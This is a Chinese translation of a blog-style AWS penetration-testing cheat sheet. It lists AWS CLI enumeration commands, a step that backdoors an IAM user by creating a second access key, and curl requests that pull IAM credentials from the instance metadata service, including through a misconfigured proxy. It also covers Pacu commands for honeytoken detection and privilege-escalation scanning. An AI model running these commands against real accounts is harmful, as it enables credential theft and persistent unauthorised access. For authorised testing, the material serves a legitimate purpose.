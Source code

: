 # 有用的 Pentest 笔记:云版

> 原文：<https://infosecwriteups.com/useful-pentest-notes-cloud-edition-8c44382fc1a8?source=collection_archive---------5----------------------->

## AWS 备忘单

![](img/aaf0c693c5122a89a72cf6591f1bae28.png)

unsplash.com

# 证明

为身份验证设置 AWS 编程密钥(对于新的配置文件，使用— profile=)

```
aws configure
```

## 开放 S3 桶枚举

列出一个 S3 桶的内容

```
aws s3 ls s3://<bucketname>/
```

下载存储桶的内容

```
aws s3 sync s3://bucketname s3-files-dir
```

## 账户信息

获取基本帐户信息

```
aws sts get-caller-identity
```

列出 IAM 用户

```
aws iam list-users
```

列出 IAM 角色

```
aws iam list-roles
```

列出帐户可访问的 S3 时段

```
aws s3 ls
```

## 虚拟机

列出 EC2 实例

```
aws ec2 describe-instances
```

## web 应用程序和 SQL

列出 web 应用程序

```
aws deploy list-applications
```

列出 AWS RDS (SQL)

```
aws rds describe-db-instances --region <region name>
```

知道了 VPC 安全组 ID，您可以查询防火墙规则来确定连接潜力

```
aws ec2 describe-security-groups --group-ids <VPC Security Group ID> --region <region>
```

## 无服务器

列出 Lambda 函数

```
aws lambda list-functions --region <region>
```

查看为机密设置的环境变量并分析代码

```
aws lambda get-function --function-name <lambda function>
```

## 建立工作关系网

列出 EC2 子网

```
aws ec2 describe-subnets
```

列出 ec2 网络接口

```
aws ec2 describe-network-interfaces
```

列出直接连接(VPN)连接

```
aws directconnect describe-connections
```

## 后门

列出用户的访问键

```
aws iam list-access-keys --user-name <username>
```

具有第二组访问密钥的后门帐户

```
aws iam create-access-key --user-name <username>
```

# 实例元数据服务 URL

```
[http://169.254.169.254/latest/meta-data](http://169.254.169.254/latest/meta-data)
```

此处可能提供额外的 IAM 证书

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

如果代理服务(如 Nginx)被托管在 AWS 中并且配置错误，可能会受到外部攻击

```
curl --proxy vulndomain.target.com:80 [http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/) && echo
```

IMDS 版本 2 有一些保护，但这些命令可以用来访问它

```
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` 
curl [http://169.254.169.254/latest/meta-data/profile](http://169.254.169.254/latest/meta-data/profile) -H "X-aws-ec2-metadata-token: $TOKEN"
```

# 其他 AWS 工具

## 古怪的

[https://github.com/carnal0wnage/weirdAAL](https://github.com/carnal0wnage/weirdAAL)

对所有 AWS 服务运行 recon，以枚举一组密钥的访问权限

```
python3 weirdAAL.py -m recon_all -t <name>
```

## 帕库

AWS 开发框架

https://github.com/RhinoSecurityLabs/pacu

安装 Pacu

```
sudo apt-get install python3-pip
git clone [https://github.com/RhinoSecurityLabs/pacu](https://github.com/RhinoSecurityLabs/pacu)
cd pacu
sudo bash install.sh
```

导入特定配置文件的 AWS 密钥

```
import_keys <profile name>
```

检测密钥是否为蜜罐令牌密钥

```
run iam__detect_honeytokens
```

枚举帐户信息和权限

```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

检查权限提升

```
run iam__privesc_scan
```